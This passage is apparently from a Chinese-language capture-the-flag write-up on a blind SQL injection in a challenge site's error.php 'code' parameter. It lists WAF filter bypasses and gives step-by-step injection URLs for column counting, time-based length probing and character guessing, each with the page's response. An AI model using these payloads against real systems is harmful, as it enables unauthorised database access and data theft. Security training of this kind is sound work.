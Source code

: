

sql语句中直接将code变量拼接进sql语句，导致sql注入的发生。

union的过滤导致不能使用联合查询，联合查询就是直接可以把查询结果带出来，这里只能用盲注，下面是对waf的过滤一些绕过的措施

substr -> right(left(xxx,1),1)

空格 -> /**/

= -> in() 或者 >

and -> %26%26

字符串过滤 -> 16进制编码

子查询需要外层加个括号

## 注入点的判断

首先是注入点，在这个error界面的code变量存在sql注入

![image-20220315212706758](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220315212706758.png)

## 字段数

使用order by对返回字段数量进行判断

`/error.php?code=404/**/order/**/by/**/3`

回显failed to query database

`/error.php?code=404/**/order/**/by/**/2`

回显pokemon not found 

说明字段数为2

## 数据库长度

`/error.php?code=404/**/%26%26/**/if(length(database())>7,sleep(1),1)`

回显pokemon not found 

`/error.php?code=404/**/%26%26/**/if(length(database())>6,sleep(1),1)`

回显为空

说明数据库长度为7

## 数据库名

原payload:`/error.php?code=404 and ascii(substr(database(),1,1)>112`

绕waf后如下

`/error.php?code=404/**/%26%26/**/ascii(right(left(database(),1),1))>112`

回显为空
